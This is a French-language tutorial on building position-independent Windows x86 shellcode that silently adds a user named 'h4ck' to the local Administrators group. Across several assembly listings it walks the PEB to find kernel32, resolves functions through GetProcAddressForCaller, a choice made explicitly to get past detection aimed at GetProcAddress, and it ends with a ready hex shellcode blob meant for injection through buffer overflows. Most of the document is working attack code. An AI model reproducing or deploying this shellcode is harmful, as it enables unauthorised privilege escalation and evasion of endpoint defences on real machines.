 

Cet article présente mon process de développement d'un shellcode. J'imagine que chacun doit avoir ses propres stratégies et fils conducteurs.

Tout d'abord, un shellcode est initialement, et au sens litéral du terme, un bout de code qui affiche un shell. De plus, ce bout de code doit être autonome, c'est-à-dire qu'il ne doit pas avoir de dépendance externe, et donc pas d'IAT (Import Address Table). Le shellcode a besoin d'une structure dans laquelle s'exécuter, car il ne s'agit pas d'un exécutable (dans le sens où la structure du PE -Portable Executable - n'est pas incluse. On ne peut donc pas double-cliquer dessus pour le lancer). Le shellcode vise à être injecté dans un processus en cours par le biais d'un buffer overflow. Son exécution doit donc être indépendante de la position à laquelle il est chargé. Il est donc capable de retrouver les adresses des fonctions dont il a besoin sans faire d'appel direct à ces fontions (pas de **call LoadLibraryA** par exemple, mais plutôt un **call eax**, avec **eax** qui contient l'adresses de**LoadLibraryA()**). De plus, comme le shellcode vise à être injecté dans un processus en cours, souvent par le biais du réseau afin d'avoir un accès distant sur une machine, certains charactère sont interdits, comme par exemple le null byte (__\x00__), le saut de ligne (__\x0A__), ou le retour à la ligne (__\x0D__) . Il est possible que d'autres charactères soient interdits en fonction de l'application ciblée (il faudra les rechercher). Je m'égare, cet article ne traite pas de buffer overflow, mais simplement de la rédaction de shellcode.

J'ai récemment eu besoin d'ajouter un utilisateur à groupe sur ma machine windows. On va donc écrire un shellcode permettant de faire cela. 

Comment ajouter l'utilisateur __h4ck__ au groupe __Administrators__ par exemple? En ligne de commande, cela se passe comme ci-dessous:

```
net localgroup Administrators h4ck /add
```

On peut alors être tenté d'utiliser la fonction __WinExec()__ (https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec) dont le prototype est le suivant:


```
UINT WinExec(
	LPCSTR 	lpCmdLine,
	UINT 	uCmdShow
);
```

et d'utiliser pour l'argument __lpCmdLine__ quelque chose comme:

```
cmd.exe /c net localgroup Administrators h4ck /add
```

Cela fonctionnerait très certainement, mais il est possible que l'utilisation de la commande __net__ soit surveillée, justement parcequ'elle permet d'ajouter/supprimer des utilisateurs/groupes. On va donc passer par un autre mécanisme un peu plus subtil et bien plus intéressant d'un point de vue développement de shellcode. En effet, pour le shellcode que je vais vous présenter, nous aurons besoin d'utiliser des structures, et l'on verra alors comment utiliser des structures en assembleur, et mieux encore en développement de shellcode. On pourra ainsi développer des shellcodes très sophistiqués.

Il existe une fonction de la msdn qui permet d'ajouter un utilisateur à un groupe. Il s'agit de __NetLocalGroupAddMembers()__ (https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/nf-lmaccess-netlocalgroupaddmembers), dont le prototype est le suivant:

```
NET_API_STATUS NET_API_FUNCTION NetLocalGroupAddMembers(
	LPCWSTR servername,
	LPCWSTR groupname,
	DWORD	level,
	LPBYTE	buf,
	DWORD	totalentries
);
```

On observe que le type du paramètre __servername__ et __groupname__ est __LPCWSTR__ (ce qui est différent du type du paramètre __lpCmdLine__ de la fonction __WinExec__ que l'on a vu plus haut et qui est __LPCSTR__). 

En quoi cela est-il important? Le type __LPCSTR__  est l'acronyme de __Long Pointer to a Constant STRing__. Il s'agit donc d'un pointeur vers une chaine de charactère ASCII dans laquelle les charactères sont codés sur __1 byte__. Dans un programme en assembleur cela se traduit comme:

```
 lpCmdLine db "cmd /c net localgroup Administrators h4ck /add", 0
```

En ce qui concerne le type __LPCWSTR__, il s'agit de l'acronyme __Long Pointer to a Constant Wide STRing__. Autrement dit, il faut utiliser de l'__unicode__. En unicode, les charactères sont codés sur __2 bytes__. Ainsi, si le charactère utilisé n'est pas unicode mais ascii, le second byte contient \x00 (ce qui introduit des null bytes ...). Dans un programme en assembleur cela se traduit comme:

```
groupname dw "A", "d", "m", "i", "n", "i", "s", "t", "r", "a", "t", "o", "r", "s", 0
```

On constate le __db__ (**define byte**) et le __dw__ (**define word**), mais aussi le __null byte__ à la fin des chaines de charactères. 

Il est recommandé de lire la msdn de NetLocalGroupAddMembers afin de bien saisir l'importance et l'utilité de tout les paramètres.

<details><summary><font color="red">Ici se trouve le code permettant d'ajouter l'utilisateur __h4ck__ au groupe __Administrators__ en utilisant la fonction __NetLocalGroupAddMembers()__</font></summary>
<p>
```
.586
.model flat, stdcall
 
ExitProcess PROTO STDCALL :DWORD
NetLocalGroupAddMembers PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD

LOCALGROUP_MEMBERS_INFO_3 struct
	lgrmi3_domainandname dd ?
LOCALGROUP_MEMBERS_INFO_3 ends

.data
	groupName    dw "A", "d", "m", "i", "n", "i", "s", "t", "r", "a", "t", "o", "r", "s", 0
	buf          dw "h","4","c","k", 0
	lgmi         LOCALGROUP_MEMBERS_INFO_3 <>

.code
Start PROC
	mov       lgmi.lgrmi3_domainandname, offset buf
	
	push      1                          
	push      offset lgmi
	push      3                          
	push      offset groupName          
	push      0                          
	call      NetLocalGroupAddMembers

	xor 	  eax, eax
	push 	  eax
	call 	  ExitProcess
	
Start ENDP
End
```
</p>
</details>

Il n'y a aucun difficulté à comprendre ce code, si ce n'est l'utilisation de la structure __LOCALGROUP\_MEMBERS\_INFO\_3__. Le paramètre __level__ doit contenir un pointeur vers un buffer contenant les données pour le nouveau groupe local (lire la msdn). La structure __LOCALGROUP\_MEMBERS\_INFO\_3__ est la suivante:

```
typedef struct _LOCALGROUP_MEMBERS_INFO_3 {
	LPWSTR lgrmi3_domainandname;
} LOCALGROUP_MEMBERS_INFO_3, *PLOCALGROUP_MEMBERS_INFO_3, *LPLOCALGROUP_MEMBERS_INFO_3;
```

Elle est assez simple, vu qu'elle ne contient qu'un élément, ce sera parfait pour notre shellcode.

__A partir d'ici, on commence le développement du shellcode.__ On va commencer par enlever la section __.data__. Comme on le sait, un shellcode n'est pas un PE, et ne peut donc pas contenir de section.

Il y a plusieur moyen de faire référence à une chaine de charactères. Par exemple, un __jmp__ suivi d'un __call__, comme dans l'exemple ci-dessous:

```
	jmp one
two:
	call myFunction	

one:
	call two
	db "ma string", 0
```

Cela fonctionne car lorsque l'on effectue un __call__, on __push__ sur la stack l'adresse de l'instruction suivante (ici la string). Ainsi l'adresse de "ma string" se retrouve sur la stack. Une autre méthode consiste à mettre directement sur la stack notre string puis à y faire référence comme suit:

```
    mov    esi, esp
    
    push   00007372h ;   sr
    push   6f746172h ; otar
    push   7473696Eh ; tsin
    push   696D6441h ; imdA
    
    mov    [esi], esp
```

On y voit des __null bytes__. Pour y remédier, on aurait pu faire:

```
    mov    esi, esp
    
    xor    eax, eax
    mov    ax, 7372h
    push   eax
    push   6f746172h
    push   7473696Eh
    push   696D6441h
    
    mov    [esi], esp
```

On voit aussi que la string est poussée à l'envers sur la stack pour des raisons de __little\_endien__. Comme l'on joue avec de l'unicode, cela s'écrira alors:

```
    mov    esi, esp
    
    xor    eax, eax
    push   eax
    push   00730072h ; sr
    push   006f0074h ; ot
    push   00610072h ; ar
    push   00740073h ; ts
    push   0069006Eh ; in
    push   0069006Dh ; im
    push   00640041h ; dA
    
    mov    [esi], esp
```

Et l'on peut maintenant écrire notre code en assembleur permettant d'ajouter un utilisateur à un groupe sans utiliser de section __.data__. Il faut simplement faire de la place sur la stack pour stocker les adresses des pointeurs vers les strings. Pour cela, on utilise un __sub esp, 8__:

<details><summary><font color="red">Ici se trouve le code sans la section .data</font></summary>
<p>
```
.586
.model flat, stdcall
 
ExitProcess PROTO STDCALL :DWORD
NetLocalGroupAddMembers PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD

.code
Start PROC
	sub    esp, 8
	mov    esi, esp
	
	xor    eax, eax
	push   eax
	push   00730072h ; sr
	push   006f0074h ; ot
	push   00610072h ; ar
	push   00740073h ; ts
	push   0069006Eh ; in
	push   0069006Dh ; im
	push   00640041h ; dA
	mov    [esi], esp
	
	push   eax
	push   006B0063h ; ck
	push   00340068h ; h4
	mov    [esi+4], esp
	
	mov    ecx, [esi+4] ; offset lgmi
	push   ecx
	mov    ecx, esp ; a pointer to a buffer
	
	push   1                          
	push   ecx ; offset lgmi
	push   3                             
	push   [esi] ; offset groupName
	push   0                          
	call   NetLocalGroupAddMembers
	
	xor    eax, eax
	push   eax
	call   ExitProcess

Start ENDP
End
```
</p>
</details>

On voit ici que l'on a remplacé la zone mémoire qui contenait la structure __LOCALGROUP_MEMBERS_INFO_3__ dans la section .data et était __RW__ (Read Write) par une autre zone mémoire qui est toujours __RW__ et qui est la __stack__.

Une autre propriété des shellcodes est qu'ils doivent être autonomes et donc pouvoir trouver par eux mêmes les adresses dont ils ont besoin pour leurs appels de fonctions (ici __call NetLocalGroupAddMembers__ et __call ExitProcess__). 

La fonction __ExitProcess()__ se trouve dans __kernel32.dll__ et la fonction __NetLocalGroupAddMembers()__ se trouve dans __netapi32.dll__. Pour trouver les adresses de ces fonctions, nous allons utiliser le combo __LoadLibray()/GetProcAddress()__ qui permet de charger une librairie et d'y trouver une adresse de fonction.

Pour cela, le shellcode a besoin d'une structure fixe à laquelle il puisse se référer quelque soit la machine sur laquelle il se trouve. La structure qui a ce rôle s'appelle le __TEB__ (Thread Environment Block). Le __TEB__ contient des informations concernant le thread en cours. Chaque thread à donc un __TEB__. Notre shellcode s'executant dans un thread, il est alors possible de se référer à son __TEB__. Pour un thread x86, cette structure est pointé par le segment __FS__ à l'offset __0x00__ (__FS:[0]__). 

Le __TEB__ contient un pointeur pointant vers le __PEB__ (Process Environment Block). Le __PEB__ contient des informations sur le processus en cours. Chaque processus a donc son __PEB__. Le pointeur vers le __PEB__ est situé à l'offset __0x30__ du __TEB__ (__FS:[0x30]__). Si l'on regarde à l'offset __0x0C__ du __PEB__, on y trouve le __LDR__ (il s'agit du LoaDeR de modules) du processus en cours. On peut voir sur les deux figures suivantes comment __windbg__ permet de retrouver ces informations.

![image alt text](/images/shellcode/peb.png)

![image alt text](/images/shellcode/ldr.png)

Le __LDR__ est une structure du type __PEB\_LDR\_DATA__ qui contient notamment la liste des modules (DLLs) chargés en mémoire par ordre de chargement à l'offset __0x1C__. Et enfin, on y trouve par ordre de chargement les adresses des DLLs chargées en mémoire. La première DLL qui est chargée en mémoire est toujours __ntdll.dll__, puis la seconde est toujours __kernel32.dll__. Ainsi, il nous suffit de récupérer l'adresse de kernel32.dll à l'offset __0x08__.

Le code permettant de trouver l'adresse de kernel32.dll est présenté ci-dessous:
```
findKernel32:
       xor 	ecx, ecx
       assume fs:nothing
       add     	ecx, fs:[ecx+30h] ; adresse du PEB dans ecx
       assume fs:error
       mov     	ecx, [ecx+0Ch] ; adresse de PEB_LDR_DATA dans ecx
       mov     	esi, [ecx+1Ch] ; adresse de InInitializationOrderModuleList dans esi
       lodsd           ; load esi into eax
       mov     	eax, [eax+08h] ; adresse de kernel32.dll !!!
```

On va ensuite chercher l'adresse de __GetProcAddress()__ dans kernel32.dll. Pour cela, on va utiliser la même méthode que celle présentée dans l'article https://dokyx.fr/fsdljfhqlsd_bypassav/. Le code a légèrement était modifié afin de prendre en compte la recherche de n'importe quelle fonction dans kernel32.dll. Dans le code de l'article sur le bypass d'antivirus, je ne recherche que la fonction GetProcAddress() pour le POC. Ici, on veut être plus général. De plus, afin d'être à l'ordre du jour, je ne vais pas chercher l'adresse de __GetProcAddress()__, mais celle de __GetProcAddressForCaller()__ afin de contourner les méthodes de détection visant __GetProcAddress()__ (https://www.okta.com/security-blog/2017/07/teaching-shellcode-new-tricks-def-con-25-addition/).

L'adresse de __GetProcAddressForCaller()__ est ensuite stockée dans le registre ESI. Le code permettant cela est présenté ci-dessous:

<details><summary><font color="red">Ici se trouve le code qui permet de trouver l'adresse de GetProcAddressForCaller</font></summary>
<p>
```
.586
.model flat, stdcall
 
ExitProcess PROTO STDCALL :DWORD
NetLocalGroupAddMembers PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD

.code
Start PROC
              
        sub    esp, 12
        mov    esi, esp
        ; esi + 0 : groupname
        ; esi + 4 : username
        ; esi + 8 : address kernel32.GetProcAddressForCaller

        push   esi
        jmp    _GetProcAddressForCaller
blop1:
        call   findFunction ; find getProcAddressForCaller
        pop    esi ; this one will get the address of the string 'GetProcAddresForCaller'
	pop    esi
        mov    [esi+8], eax

	push   esi
	jmp    _LoadLibraryA
blop2:
	call   findFunction
        pop    esi ; this one will get the address of the string 'GetProcAddresForCaller'
	pop    esi
        mov    [esi+12], eax

              
	xor    eax, eax
	push   eax
	push   00730072h ; sr
	push   006f0074h ; ot
	push   00610072h ; ar
	push   00740073h ; ts
	push   0069006Eh ; in
	push   0069006Dh ; im
	push   00640041h ; dA
	mov    [esi], esp
	
	push   eax
	push   006B0063h ; ck
	push   00340068h ; h4
	mov    [esi+4], esp

        mov    ecx, [esi+4] ; offset lgmi
        push   ecx
        mov    ecx, esp ; a pointer to a buffer

        push   1                          
        push   ecx ; offset lgmi
	push   3                             
        push   [esi] ; offset groupName
	push   0                          
        call   NetLocalGroupAddMembers

        xor    eax, eax
        push   eax
        call   ExitProcess

findFunction:
       xor     ecx, ecx
       assume fs:nothing
       add     ecx, fs:[ecx+30h] ; adresse du PEB dans ecx
       assume fs:error
       mov     ecx, [ecx+0Ch] ; adresse de PEB_LDR_DATA dans ecx
       mov     esi, [ecx+1Ch] ; adresse de InInitializationOrderModuleList dans esi
       lodsd           ; load esi into eax
       mov     eax, [eax+08h] ; adresse de kernel32.dll !!!

findEDT:  ; find Export Directory Table
       mov     ebx, [eax+03Ch] ; eax = offset signature PE dans Kernel32 
       mov     ebx, [eax+ebx+078h] ; ebx = offset Export Directory Table dans Kernel32 
       add     ebx, eax ; adresse de Export Directory Table dans ebx
       mov     edx, eax

findGPA: ; find GetProcAddress
       mov     ecx, [ebx+18h] ; ecx = nbre de fonctions exportées (compteur) 
       mov     eax, [ebx+20h] ; eax = Offset Export Name Pointer Table dans Kernel32 
       add     eax, edx ; adresse de Export Name Pointer Table dans eax

parseENPT: ; parcourt Export Name Pointer Table
       dec     ecx ; decremente le compte nombre exports push offset func\_GetProcAddress 
       cmp     al, al
       mov     edi, [esp+4] ; contient 'GetProcAddressForCaller' or 'LoadLibraryA' or .. 
       mov     esi, [eax+ecx*4] ; esi = ordinal 'NomFonction\n' dans Name Pointer Table 
       add     esi, edx ; esi = adresse 'NomFonction\n' dans Name Pointer Table 
       push    ecx ; sauvegarde ecx 
       xor     ecx, ecx 
       add     cl, 23d; ecx = nbre charactères dans GetProcAddressForCaller 
       repe    cmpsb ; compare chaines edi et esi 
       pop     ecx ; ecx = compteur nombre exports 
       jnz     parseENPT 
       mov     eax, [ebx+024h] ; eax = offset Ordinal Table dans Kernel32 
       add     eax, edx ; eax = adresse Ordinal Table 
       mov     cx, [eax+ecx*2] ; cx = ordinal de la fonction - numéro du 1er ordinal 
       mov     ax, [ebx+010h] ; eax = numéro du premier ordinal de la table 
       add     cx, ax ; cx = ordinal de la fonction 
       dec     cx ; pour tomber juste (ordinal débute à 0) 
       mov     eax, [ebx+01Ch] ; eax = offset Export Address Table 
       add     eax, edx ; eax = adresse Export Address Table 
       mov     eax, [eax+ecx*4] ; eax = offset de GetProcAddress dans Kernel32 
       add     eax, edx ; eax = adresse GetProcAddress

       ret

_GetProcAddressForCaller:
       call   blop1
       db     'GetProcAddressForCaller', 0

_LoadLibraryA:
       call   blop2
       db     'LoadLibraryA', 0

Start ENDP
End
```
</p>
</details>

Pour utiliser __GetProcAddressForCaller()__ à la place de __GetProcAddress()__, il suffit de rajouter un 0 comme argument supplémentaire.

```
GetProcAddress('DLL handle', 'API string')
GetProcAddresForCaller('DLL handle', 'API string', 0)
```

Il reste à trouver l'adresse de __LoadLibraryA()__ selon le même principe. Il faut penser à augmenter la taille du buffer qui sert à stocker les adresses (en début de shellcode):

```
        sub    esp, 16
        mov    esi, esp
        ; esi + 0 : groupname
        ; esi + 4 : username
        ; esi + 8 : address kernel32.GetProcAddressForCaller
        ; esi + 12 : address kernel32.LoadLibraryA
```

Le code permettant d'ajouter la recherche de __LoadLibraryA()__ diffère peu. Le point important est dans l'instruction __add cl, 23d__ qu'il a fallut modifier en __add cl, 12d__. En effet cette instruction permet d'avoir dans le registre __cl__ la taille de la string à comparer. __GetProcAddressForCaller__ contient 23 charactères tandis que __LoadLibraryA__ n'en contient que 12. Il faut alors volontairement discriminer GetProcAddressForCaller avec 12 charactères seulement, à moins de pousser sur la stack la taille des 2 chaines de charactères, ce qui alourdirais le shellcode. Ce n'est pour le moment pas un problème car il n'y a pas de fonction dans kernel32.dll qui commence par __GetProcAddre__ et qui pourrait compromettre la recherche de la fonction. Il y a, certes, __GetProcAddress__ qui pourrait matcher, mais comme les fonctions sont lues en ordre contraire de leur offsets dans la DLL, le code va commencer par checker avec __GetProcAddressForCaller__ puis __GetProcAddress__. Il matchera donc sur la première, ce que l'on souhaite.


<details><summary><font color="red">Ici se trouve le code qui permet de trouver l'adresse de GetProcAddressForCaller et LoadLibraryA</font></summary>
<p>
```
.586
.model flat, stdcall
 
ExitProcess PROTO STDCALL :DWORD
NetLocalGroupAddMembers PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD

.code
Start PROC
              
        sub    esp, 12
        mov    esi, esp
        ; esi + 0 : groupname
        ; esi + 4 : username
        ; esi + 8 : address kernel32.GetProcAddressForCaller

        push   esi
        jmp    _GetProcAddressForCaller
blop1:
        call   findFunction ; find getProcAddressForCaller
        pop    esi ; this one will get the address of the string 'GetProcAddresForCaller'
	pop    esi
        mov    [esi+8], eax

	push   esi
	jmp    _LoadLibraryA
blop2:
	call   findFunction
        pop    esi ; this one will get the address of the string 'GetProcAddresForCaller'
	pop    esi
        mov    [esi+12], eax

              
	xor    eax, eax
	push   eax
	push   00730072h ; sr
	push   006f0074h ; ot
	push   00610072h ; ar
	push   00740073h ; ts
	push   0069006Eh ; in
	push   0069006Dh ; im
	push   00640041h ; dA
	mov    [esi], esp
	
	push   eax
	push   006B0063h ; ck
	push   00340068h ; h4
	mov    [esi+4], esp

        mov    ecx, [esi+4] ; offset lgmi
        push   ecx
        mov    ecx, esp ; a pointer to a buffer

        push   1                          
        push   ecx ; offset lgmi
	push   3                             
        push   [esi] ; offset groupName
	push   0                          
        call   NetLocalGroupAddMembers

        xor    eax, eax
        push   eax
        call   ExitProcess

findFunction:
       xor     ecx, ecx
       assume fs:nothing
       add     ecx, fs:[ecx+30h] ; adresse du PEB dans ecx
       assume fs:error
       mov     ecx, [ecx+0Ch] ; adresse de PEB_LDR_DATA dans ecx
       mov     esi, [ecx+1Ch] ; adresse de InInitializationOrderModuleList dans esi
       lodsd           ; load esi into eax
       mov     eax, [eax+08h] ; adresse de kernel32.dll !!!

findEDT:  ; find Export Directory Table
       mov     ebx, [eax+03Ch] ; eax = offset signature PE dans Kernel32 
       mov     ebx, [eax+ebx+078h] ; ebx = offset Export Directory Table dans Kernel32 
       add     ebx, eax ; adresse de Export Directory Table dans ebx
       mov     edx, eax

findGPA: ; find GetProcAddress
       mov     ecx, [ebx+18h] ; ecx = nbre de fonctions exportées (compteur) 
       mov     eax, [ebx+20h] ; eax = Offset Export Name Pointer Table dans Kernel32 
       add     eax, edx ; adresse de Export Name Pointer Table dans eax

parseENPT: ; parcourt Export Name Pointer Table
       dec     ecx ; decremente le compte nombre exports push offset func\_GetProcAddress 
       cmp     al, al
       mov     edi, [esp+4] ; contient 'GetProcAddressForCaller' or 'LoadLibraryA' or .. 
       mov     esi, [eax+ecx*4] ; esi = ordinal 'NomFonction\n' dans Name Pointer Table 
       add     esi, edx ; esi = adresse 'NomFonction\n' dans Name Pointer Table 
       push    ecx ; sauvegarde ecx 
       xor     ecx, ecx 
       add     cl, 12d; ecx = nbre charactères dans LoadLibraryA et GetProcAddressForCaller (12 est suffisant pour trouver la bonne fonction)
       repe    cmpsb ; compare chaines edi et esi 
       pop     ecx ; ecx = compteur nombre exports 
       jnz     parseENPT 
       mov     eax, [ebx+024h] ; eax = offset Ordinal Table dans Kernel32 
       add     eax, edx ; eax = adresse Ordinal Table 
       mov     cx, [eax+ecx*2] ; cx = ordinal de la fonction - numéro du 1er ordinal 
       mov     ax, [ebx+010h] ; eax = numéro du premier ordinal de la table 
       add     cx, ax ; cx = ordinal de la fonction 
       dec     cx ; pour tomber juste (ordinal débute à 0) 
       mov     eax, [ebx+01Ch] ; eax = offset Export Address Table 
       add     eax, edx ; eax = adresse Export Address Table 
       mov     eax, [eax+ecx*4] ; eax = offset de GetProcAddress dans Kernel32 
       add     eax, edx ; eax = adresse GetProcAddress

       ret

_GetProcAddressForCaller:
       call    blop1
       db      'GetProcAddressForCaller', 0

_LoadLibraryA:
       call    blop2
       db      'LoadLibraryA', 0

Start ENDP
End
```
</p>
</details>

Maintenant que l'on a les adresses de __LoadLibraryA()__ et de __GetProcAddressForCaller()__, il est possible de retrouver n'importe qu'elle fonction. N'oublions pas que celle qui nous interesse est __NetLocalGroupAddMembers()__ qui se trouve dans la DLL __Netapi32.dll__.

```
              jmp _Netapi32
blop3:
              mov eax,[esi+12]
              call eax ; LoadLibraryA('Netapi32.dll')

              xor ebx, ebx
              push ebx
              jmp _NetLocalGroupAddMembers
blop4:
              push eax
              mov eax, [esi+8]
              call eax ; GetProcAddressForCaller(handle netapi32.dll, 'NetLocalGroupAddMembers', 0)
_Netapi32:
       call   blop3
       db     'Netapi32.dll',0

_NetLocalGroupAddMembers:
       call   blop4
       db     'NetLocalGroupAddMembers', 0
```

Et le code final permettant d'ajouter un utilisateur dans le groupe __Administrators__ sans utiliser de section .data, et en recherchant lui-même les DLLs et fonctions dont il a besoin est présenté ci-dessous:: 

<details><summary><font color="red">Ici se trouve le code qui permet d'utiliser NetLocalGroupAddMembers de manière autonome</font></summary>
<p>
```
.586
.model flat, stdcall

.code
Start PROC
              
        sub    esp, 12
        mov    esi, esp
        ; esi + 0 : groupname
        ; esi + 4 : username
        ; esi + 8 : address kernel32.GetProcAddressForCaller

        push   esi
        jmp    _GetProcAddressForCaller
blop1:
        call   findFunction ; find getProcAddressForCaller
        pop    esi ; this one will get the address of the string 'GetProcAddresForCaller'
	pop    esi
        mov    [esi+8], eax

	push   esi
	jmp    _LoadLibraryA
blop2:
	call   findFunction
        pop    esi ; this one will get the address of the string 'GetProcAddresForCaller'
	pop    esi
        mov    [esi+12], eax

        jmp    _Netapi32
blop3:
        mov    eax,[esi+12]
        call   eax ; LoadLibraryA

        xor    ebx, ebx
        push   ebx
        jmp    _NetLocalGroupAddMembers
blop4:
        push   eax
        mov    eax, [esi+8]
        call   eax ; GetProcAddressForCaller
        mov    ebx, eax

              
	xor    eax, eax
	push   eax
	push   00730072h ; sr
	push   006f0074h ; ot
	push   00610072h ; ar
	push   00740073h ; ts
	push   0069006Eh ; in
	push   0069006Dh ; im
	push   00640041h ; dA
	mov    [esi], esp
	
	push   eax
	push   006B0063h ; ck
	push   00340068h ; h4
	mov    [esi+4], esp

        mov    ecx, [esi+4] ; offset lgmi
        push   ecx
        mov    ecx, esp ; a pointer to a buffer

        push   1                          
        push   ecx ; offset lgmi
	push   3                             
        push   [esi] ; offset groupName
	push   0                          
        call   ebx ; NetLocalGroupAddMembers

findFunction:
       xor     ecx, ecx
       assume fs:nothing
       add     ecx, fs:[ecx+30h] ; adresse du PEB dans ecx
       assume fs:error
       mov     ecx, [ecx+0Ch] ; adresse de PEB_LDR_DATA dans ecx
       mov     esi, [ecx+1Ch] ; adresse de InInitializationOrderModuleList dans esi
       lodsd           ; load esi into eax
       mov     eax, [eax+08h] ; adresse de kernel32.dll !!!

findEDT:  ; find Export Directory Table
       mov     ebx, [eax+03Ch] ; eax = offset signature PE dans Kernel32 
       mov     ebx, [eax+ebx+078h] ; ebx = offset Export Directory Table dans Kernel32 
       add     ebx, eax ; adresse de Export Directory Table dans ebx
       mov     edx, eax

findGPA: ; find GetProcAddress
       mov     ecx, [ebx+18h] ; ecx = nbre de fonctions exportées (compteur) 
       mov     eax, [ebx+20h] ; eax = Offset Export Name Pointer Table dans Kernel32 
       add     eax, edx ; adresse de Export Name Pointer Table dans eax

parseENPT: ; parcourt Export Name Pointer Table
       dec     ecx ; decremente le compte nombre exports push offset func\_GetProcAddress 
       cmp     al, al
       mov     edi, [esp+4] ; contient 'GetProcAddressForCaller' or 'LoadLibraryA' or .. 
       mov     esi, [eax+ecx*4] ; esi = ordinal 'NomFonction\n' dans Name Pointer Table 
       add     esi, edx ; esi = adresse 'NomFonction\n' dans Name Pointer Table 
       push    ecx ; sauvegarde ecx 
       xor     ecx, ecx 
       add     cl, 12d; ecx = nbre charactères dans LoadLibraryA et GetProcAddressForCaller (12 est suffisant pour trouver la bonne fonction)
       repe    cmpsb ; compare chaines edi et esi 
       pop     ecx ; ecx = compteur nombre exports 
       jnz     parseENPT 
       mov     eax, [ebx+024h] ; eax = offset Ordinal Table dans Kernel32 
       add     eax, edx ; eax = adresse Ordinal Table 
       mov     cx, [eax+ecx*2] ; cx = ordinal de la fonction - numéro du 1er ordinal 
       mov     ax, [ebx+010h] ; eax = numéro du premier ordinal de la table 
       add     cx, ax ; cx = ordinal de la fonction 
       dec     cx ; pour tomber juste (ordinal débute à 0) 
       mov     eax, [ebx+01Ch] ; eax = offset Export Address Table 
       add     eax, edx ; eax = adresse Export Address Table 
       mov     eax, [eax+ecx*4] ; eax = offset de GetProcAddress dans Kernel32 
       add     eax, edx ; eax = adresse GetProcAddress

       ret

_GetProcAddressForCaller:
       call    blop1
       db      'GetProcAddressForCaller', 0

_LoadLibraryA:
       call    blop2
       db      'LoadLibraryA', 0

_Netapi32:
       call    blop3
       db      'Netapi32.dll',0

_NetLocalGroupAddMembers:
       call    blop4
       db      'NetLocalGroupAddMembers', 0

Start ENDP
End
```
</p>
</details>

Le shellcode est donc:

```
83EC108BF456E9BF000000E8630000005E5E89460856E9CC000000E8530000005E5E89460CE9CF0000008B460CFFD033DB53E9D4000000508B4608FFD08BD833C050686F0070006862006C0089266A686869007400687500620068690074008966048B4E04518BCC6A01516A03FF366A00FFD333C9640349308B490C8B711CAD8B40088B583C8B5C187803D88BD08B4B188B432003C2493AC08B7C24048B348803F25133C980C10CF3A65975E98B432403C2668B0C48668B43106603C866498B431C03C28B048803C2C3E83CFFFFFF47657450726F6341646472657373466F7243616C6C657200E82FFFFFFF4C6F61644C69627261727941
```

Il est à noter que j'ai enlever la fonction __ExitProcess()__, mais il est tout à fait possible de la rechercher pour quitter le programme correctement, et d'ajouter son adresse dans __[esi+16]__ par exemple, en ayant pris soin d'ajouter de l'espace supplémentaire sur la stack.

On remarque que ce shellcode contient des __null bytes__ qui sont inhérent à la construction des strings. Il y a possibilité de s'en passer en les poussant directement sur la stack comme j'ai pu le faire pour le nom d'utilisateur et le groupe. (A vrai dire j'ai utilisé cette technique du __jmp/call__ pour pousser sur la stack par flemme d'écrire les strings à l'envers ...).

Il restera néanmoins une string qui contiendra des __null bytes__, c'est celle qui contient le groupe car elle est en unicode. Pour cela, il suffit de remplacer les __\x00__ par des __\x90__ par exemple et d'ajouter une boucle qui remplace au runtime les __\x90__ par des __\x00__. Cela est possible car la string est poussée sur la stack qui a les permissions RW. Il existe plusieurs manières de faire cela.

Si des null bytes persistent, il faudra penser à encoder le shellcode avec un encodeurs tout prêt comme __shikata ga nai__ ou bien un encodeur que vous aurez codé pour l'occasion.

Ici s'achève cet article sur l'écriture de shellcode indépendant de la position et autonome. Comme dit au début de l'article, il y a plusieurs manières de faire cela, à vous de vous en inspirer :)
